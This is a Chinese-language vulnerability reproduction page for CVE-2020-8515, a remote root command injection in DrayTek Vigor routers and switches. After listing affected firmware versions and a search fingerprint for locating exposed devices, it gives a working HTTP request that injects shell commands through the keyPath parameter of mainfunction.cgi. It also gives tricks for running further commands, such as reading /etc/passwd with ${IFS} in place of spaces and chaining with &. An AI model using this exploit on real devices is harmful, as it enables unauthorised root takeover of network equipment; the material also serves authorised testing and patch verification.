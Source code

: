 # DrayTek企业网络设备 远程命令执行 CVE-2020-8515

## 漏洞描述

DrayTek URI未能正确处理SHELL字符，远程攻击者可以利用该漏洞提交特殊的请求，可以ROOT权限执行任意命令。

远程命令注入漏洞被标记为CVE-2020-8515，主要影响了DrayTek Vigor网络设备，包括企业交换机、路由器、负载均衡器和VPN网关。

## 漏洞影响

<a-checkbox checked>Vigor2960 < v1.5.1</a-checkbox></br>

<a-checkbox checked>Vigor300B < v1.5.1</a-checkbox></br>

<a-checkbox checked>Vigor3900 < v1.5.1</a-checkbox></br>

<a-checkbox checked>VigorSwitch20P2121 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20G1280 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20P1280 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20G2280 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20P2280 <= v2.3.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Vigor 2960"</a-checkbox></br>

## 漏洞复现

登录页面抓包

![](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-7231530.png)

请求包如下

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1

Connection: close
Content-Length: 67
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

action=login&keyPath=%27%0A%2fbin%2fls%0A%27&loginUser=a&loginPwd=a
```

![](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220314121856526.png)

其中出现注入点的参数为 **keyPath**

出现空格需要替换，例如 cat /etc/passwd --> cat${IFS}/etc/passwd

可以使用 & 执行额外一条命令 (URL编码为 %26)

![](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220314121906002.png)

